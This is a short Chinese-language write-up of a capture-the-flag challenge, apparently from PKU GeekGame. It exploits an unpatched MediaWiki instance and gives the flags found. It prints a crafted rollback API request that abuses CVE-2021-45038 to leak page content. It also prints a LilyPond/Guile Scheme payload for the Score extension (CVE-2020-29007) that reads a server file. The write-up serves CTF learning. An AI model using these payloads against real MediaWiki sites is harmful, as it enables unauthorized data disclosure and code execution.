

# 私有笔记

> 第二阶段提示后完成。

## Flag 1

根据提示，利用 [CVE-2021-45038](https://attackerkb.com/topics/nQ4e21277J/cve-2021-45038/vuln-details)，发送一个 `rollback` 请求，并将 `from` 参数设置为 `{{:Flag}}`，此时返回的回退失败的页面上会自动嵌入 `{{:Flag}}` 页面的内容，从而得到 Flag 1（`flag{insecure_01d_mediavviki}`）。

```txt
> POST /api.php%26action=rollback HTTP/2
> Host: prob07-2uqyuho6.geekgame.pku.edu.cn
> user-agent: insomnia/2022.4.2
> content-type: multipart/form-data; boundary=X-INSOMNIA-BOUNDARY
> accept: */*
> content-length: 341

* STATE: DO => DID handle 0xb6e02f1c808; line 2077 (connection #3)
* multi changed, check CONNECT_PEND queue!
* STATE: DID => PERFORMING handle 0xb6e02f1c808; line 2196 (connection #3)

| --X-INSOMNIA-BOUNDARY
| Content-Disposition: form-data; name="action"
| rollback
| --X-INSOMNIA-BOUNDARY
| Content-Disposition: form-data; name="token"
| +\\
| --X-INSOMNIA-BOUNDARY
| Content-Disposition: form-data; name="user"
| Flag1
| --X-INSOMNIA-BOUNDARY
| Content-Disposition: form-data; name="from"
| {{:Flag}}
| --X-INSOMNIA-BOUNDARY--
```

## Flag 2

根据上一步的返回，可以看到有一个用户名为 `Flag1` 且密码为 Flag 1 内容的用户。使用这一用户可以成功登录。

实际上第一阶段时已经注意到 `特殊:版本` 页面中列出的扩展列表，其中的 `Score` 扩展版本很老，并可以查到相关的 [CVE-2020-29007](https://phabricator.wikimedia.org/T257062)。

按照查到的资料，编辑页面并插入下面的内容：

```xml
<score lang="lilypond">\new Staff <<{c^#
(object->string (call-with-input-file "/flag2" read))
}>></score>
```

预览即可得到 Flag 2（`flag{li1yp0nd_can_1ead_to_rce}`）：



> 研究 `Guile Scheme` 读取文件的正确方法折腾了挺久。。
